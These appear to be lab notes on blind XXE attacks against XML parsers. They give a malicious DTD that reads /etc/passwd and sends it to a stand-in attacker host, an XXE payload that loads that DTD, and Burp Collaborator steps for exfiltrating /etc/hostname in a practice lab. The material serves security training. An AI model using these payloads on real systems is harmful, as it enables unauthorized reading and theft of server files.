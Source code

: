 An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
```

This DTD carries out the following steps:
- Defines an XML param entity called `file`-->  containing the contents of the `/etc/passwd`
- Defines an XML param entity called `eval` -->     containing a dynamic declaration of 
                                         another XML parameter entity called `exfiltrate`. 
- The `exfiltrate` entity:
	- will be evaluated by making an HTTP req to the attacker's web server 
	- containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity:
	- which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity:
	- so that its value is evaluated by requesting the specified URL
	
The attacker must then:
- host the malicious DTD on a system that they control
  (by loading it onto their own webserver)

For example, the attacker might serve the malicious DTD at the following URL:
`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

This XXE payload:
- declares an XML parameter entity called `xxe` 
- then uses the entity within the DTD
- This will cause the XML parser to fetch the external DTD from the attacker's server 
- and interpret it inline
- The steps defined within the malicious DTD:
	- are then executed
	- the `/etc/passwd` file is transmitted to the attacker's server


- Using Burp Suite Professional, go to the Collaborator tab.
- Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
- Place the Burp Collaborator payload into a malicious DTD file:
  `<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %eval; %exfil;`
- Click "Go to exploit server" and save the malicious DTD file on your server as .dtd
- Click "View exploit" and take a note of the URL.
- You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. 
- Visit a product page, click "Check stock", and intercept the resulting POST request
- Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
  `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
- Go back to the Collaborator tab, and click "Poll now". 
  If you don't see any interactions listed, wait a few seconds and try again.
- You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
- the HTTP interaction could contain the contents of the `/etc/hostname` file
